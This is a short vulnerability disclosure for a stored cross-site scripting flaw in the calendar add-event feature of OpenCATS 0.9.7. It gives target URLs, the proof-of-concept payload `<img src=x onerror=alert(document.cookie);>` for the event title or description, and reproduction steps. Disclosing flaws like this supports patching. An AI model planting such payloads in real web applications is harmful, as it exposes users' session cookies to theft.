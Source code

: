 # Opencats-0.9.7-Stored XSS in Calendar-Add-Event
Date: 2022/12/25

Exploit Author: Sakura501

Vendor Homepage: https://www.opencats.org/

Software Link: https://github.com/opencats/OpenCATS

Version: 0.9.7

Tested on: Windows11/PHP7.3.4/MySQL5.7.26

## URL&POC
`http://192.168.2.153/src/opencats/index.php?m=calendar`

`http://192.168.2.153/src/opencats/index.php?m=calendar&view=DAYVIEW&month=12&year=2022&day=25&showEvent=1`

`<img src=x onerror=alert(document.cookie);>`

## Attack Steps
1. Click the Calendat Menu.
2. Add an event, and fill the XSS payload in Title or Desc.
![image](https://user-images.githubusercontent.com/71068573/209456687-a0f913ed-2716-48aa-89b1-2ec13a3f3e13.png)

3. Click the Add Event button, then the stored XSS will be triggered. You can also click the incoming event to trigger this stored XSS.
![image](https://user-images.githubusercontent.com/71068573/209456734-5181d116-bc9d-4693-8871-cf31b33b4534.png)

![image](https://user-images.githubusercontent.com/71068573/209456721-53cb3b93-11a0-4dda-a264-f5bfbc70e0ac.png)

## Source code analysis
![image](https://user-images.githubusercontent.com/71068573/209458256-b255cb58-e766-4d9c-84c1-1feeee8ce117.png)
